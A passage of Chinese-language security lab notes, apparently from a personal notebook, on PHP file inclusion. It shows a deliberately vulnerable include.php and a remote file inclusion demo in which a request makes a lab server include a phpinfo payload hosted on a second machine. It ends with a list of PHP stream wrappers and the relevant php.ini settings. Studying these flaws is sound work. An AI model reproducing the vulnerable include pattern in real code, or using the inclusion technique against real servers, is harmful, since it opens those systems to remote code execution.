 
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628990843683-85992693-04c1-4f0f-8b4c-8c058b6d3f39.png#clientId=uabf089aa-6d9b-4&from=paste&height=87&id=u724819ac&originHeight=173&originWidth=1451&originalType=binary&ratio=1&size=13817&status=done&style=none&taskId=ue9893df9-2f0c-42ba-9d53-1430b66a670&width=725.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628991466436-bd1e83fe-732e-405e-8a30-54ed114e2a07.png#clientId=uabf089aa-6d9b-4&from=paste&height=140&id=uebe4d11c&originHeight=280&originWidth=1920&originalType=binary&ratio=1&size=93899&status=done&style=none&taskId=u5d5c81f0-85dc-45e7-83b7-b5d4a3d01ae&width=960)
<a name="PzyuU"></a>
### 有限制文件包含漏洞
未完成
```bash
root@f3d91c74e2ee:/var/www/html# cat include.php
<?php

$filename=$_GET['filename'];
include($filename.".html");

?>

```

<a name="CfUWg"></a>
### 远程包含
条件

| **allow_url_include** | On |
| --- | --- |

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628994796454-4c22e359-c6a4-42d4-98e9-dc8efa790ea3.png#clientId=uabf089aa-6d9b-4&from=paste&height=229&id=u474d1c6b&originHeight=458&originWidth=1920&originalType=binary&ratio=1&size=50985&status=done&style=none&taskId=u8df85fa5-ec47-498c-9376-9ef087d0289&width=960)<br />在远程服务器上创建readme.txt并访问
```bash
<?php
	phpinfo();
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628995907491-2b705190-eef2-4ba3-a771-d30e12431147.png#clientId=uabf089aa-6d9b-4&from=paste&id=uca0b3452&originHeight=210&originWidth=1114&originalType=binary&ratio=1&size=12781&status=done&style=none&taskId=u5998007c-c6b8-4480-9f12-bbcf60af480)<br />远程包含漏洞利用`[http://10.1.1.7:49153/include.php?filename=http://10.1.1.6/readme.txt](http://10.1.1.7:49153/include.php?filename=http://10.1.1.6/readme.txt)`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628995973280-9894fd26-e121-4c56-a474-60f35195d6bf.png#clientId=uabf089aa-6d9b-4&from=paste&height=444&id=ue8c0dbc3&originHeight=888&originWidth=1760&originalType=binary&ratio=1&size=125810&status=done&style=none&taskId=u121ea21d-7878-40b4-876b-c2155d66afe&width=880)

<a name="t1SAR"></a>
### 协议玩法
[https://www.cnblogs.com/endust/p/11804767.html](https://www.cnblogs.com/endust/p/11804767.html)<br />PHP支持的伪协议
```bash
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```
**php.ini参数设置**<br />在php.ini里有两个重要的参数allow_url_fopen、allow_url_include。<br />allow_url_fopen:默认值是ON。允许url里的封装协议访问文件；<br />allow_url_include:默认值是OFF。不允许包含url里的封装协议包含文件；
